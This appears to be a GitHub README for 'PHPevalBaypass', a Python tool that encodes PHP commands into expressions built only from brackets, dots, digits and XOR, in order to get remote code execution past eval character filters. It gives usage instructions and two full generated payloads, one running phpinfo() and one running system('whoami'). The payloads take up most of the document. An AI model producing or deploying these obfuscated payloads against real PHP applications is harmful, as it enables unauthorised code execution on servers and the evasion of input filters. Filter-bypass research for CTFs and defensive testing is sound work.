 # PHPevalBaypass

## Description

RCE with ```[].0-9^```

## Usage

python3 main.py command

## Example

```python3 main.py phpinfo();```

```
[[112345678111111...8][0][15]^[5...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[4...0][0][0]][0].[[112345678111111...8][0][15]^[5...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[5...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[2...0][0][0]][0].[[112345678111111...8][0][15]^[7...0][0][0]^[4...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[9...0][0][0]^[2...0][0][0]][0]
```

![image-20221018140438098](img/image-20221018140438098.png)

![image-20221018140644160](img/image-20221018140644160.png)

```python3 main.py system(strtolower('whoami'));```

```
[[112345678111111...8][0][15]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[112345678111111...8][0][20]^[2...0][0][0]][0].[[112345678111111...8][0][15]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[1...0][0][0]][0].[[112345678111111...8][0][15]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[1...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[1...0][0][0]][0].[[112345678111111...8][0][15]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[1...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[0...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[2...0][0][0]][0].[[112345678111111...8][0][15]][0].[[112345678111111...8][0][15]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[6...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[9...0][0][0]][0].[[112345678111111...8][0][15]^[2...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[4...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[7...0][0][0]^[3...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[1...0][0][0]][0].[[112345678111111...8][0][15]^[9...0][0][0]^[5...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[9...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[112345678111111...8][0][20]^[7...0][0][0]][0].[[112345678111111...8][0][15]^[0...0][0][0]^[112345678111111...8][0][15]^[9...0][0][0]^[2...0][0][0]][0]
```



![image-20221018140808978](img/image-20221018140808978.png)

![image-20221018140845928](img/image-20221018140845928.png)
